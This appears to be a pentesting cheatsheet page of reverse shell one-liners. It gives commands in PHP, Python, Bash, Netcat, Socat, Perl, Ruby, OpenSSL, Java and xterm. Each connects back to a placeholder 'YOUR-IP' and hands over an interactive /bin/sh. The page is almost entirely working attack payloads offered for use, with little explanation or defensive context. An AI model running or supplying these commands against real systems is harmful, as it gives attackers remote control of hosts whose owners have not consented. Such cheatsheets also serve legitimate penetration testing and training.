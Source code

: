 ```yaml
---
title: "Reverse Shells Cheatsheet"
excerpt_separator: "<!--more-->"
categories: [cheatsheet]
tags: [cheatsheet, pentest, hacking]
---
```



### Reverse Shells

Replace "YOUR-IP" with your machines IP address ie: 192.168.1.1, also make sure to set your port too!

#### PHP :

```console
php -r '$sock=fsockopen("YOUR-IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Python :

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Bash :

```console
bash -i >& /dev/tcp/YOUR-IP/8080 0>&1
```

#### Netcat :

```console
nc -e /bin/sh YOUR-IP 4444
```

#### Socat :

```console
socat tcp-connect:YOUR-IP:4444 system:/bin/sh
```

#### Perl :

```console
perl -e 'use Socket;$i="YOUR-IP";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Ruby :

```console
ruby -rsocket -e'f=TCPSocket.open("YOUR-IP",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### OpenSSL:

On your machine (to receive, not a normal TCP connection)
```console
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes # generate some arbitrary cert
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

On PWN'd client
```console
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect YOUR-IP:4444 > /tmp/s; rm /tmp/s
```

#### Java :

```console
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5< >/dev/tcp/YOUR-IP/4444;cat <& 5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### xterm :

```console
xterm -display YOUR-IP:4444
```
